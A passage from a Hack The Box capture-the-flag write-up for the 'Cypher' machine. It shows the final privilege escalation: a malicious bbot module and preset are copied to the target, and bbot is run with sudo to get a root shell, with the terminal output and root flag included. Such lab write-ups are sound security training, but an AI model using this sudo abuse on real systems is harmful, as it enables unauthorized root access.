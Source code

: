 I copy the exploit files `systeminfo_enum.py` and `preset.yml` to `/dev/shm` on the target.

```
fcoomans@kali:~/htb/cypher/bbot-privesc$ scp systeminfo_enum.py graphasm@cypher.htb:/dev/shm/
graphasm@cypher.htb's password:
systeminfo_enum.py                                                                                                                       100%  523     3.2KB/s   00:00

fcoomans@kali:~/htb/cypher/bbot-privesc$ scp preset.yml graphasm@cypher.htb:/dev/shm/
graphasm@cypher.htb's password:
preset.yml                                                                                                                               100%   83     0.5KB/s   00:00
```

`bbot` is run with `sudo` and passing in the malicious `preset.yml` file.  This dumps me into a root shell.

```
graphasm@cypher:/dev/shm$ sudo /usr/local/bin/bbot -t dummy.com -p ./preset.yml --event-types ROOT
  ______  _____   ____ _______
 |  ___ \|  __ \ / __ \__   __|
 | |___) | |__) | |  | | | |
 |  ___ <|  __ <| |  | | | |
 | |___) | |__) | |__| | | |
 |______/|_____/ \____/  |_|
 BIGHUGE BLS OSINT TOOL v2.1.0.4939rc

www.blacklanternsecurity.com/bbot

[INFO] Scan with 1 modules seeded with 1 targets (1 in whitelist)
[INFO] Loaded 1/1 scan modules (systeminfo_enum)
[INFO] Loaded 5/5 internal modules (aggregate,cloudcheck,dnsresolve,excavate,speculate)
[INFO] Loaded 5/5 output modules, (csv,json,python,stdout,txt)
[SUCC] systeminfo_enum: 📡 systeminfo_enum setup called — launching shell!
                                                                          root@cypher:/dev/shm# id
uid=0(root) gid=0(root) groups=0(root)
```

### 💰 Post Exploitation

#### 🏆 root.txt

`root` is the holder of the `root.txt` flag.

```
root@cypher:/dev/shm# cat /root/root.txt
060c7a718b6723d73e6d2ac728f68802
```

Turns out Cypher wasn’t very good at keeping secrets… but I was Neo enough to break the Matrix.

And `Cypher has been Pwned!` 🎉

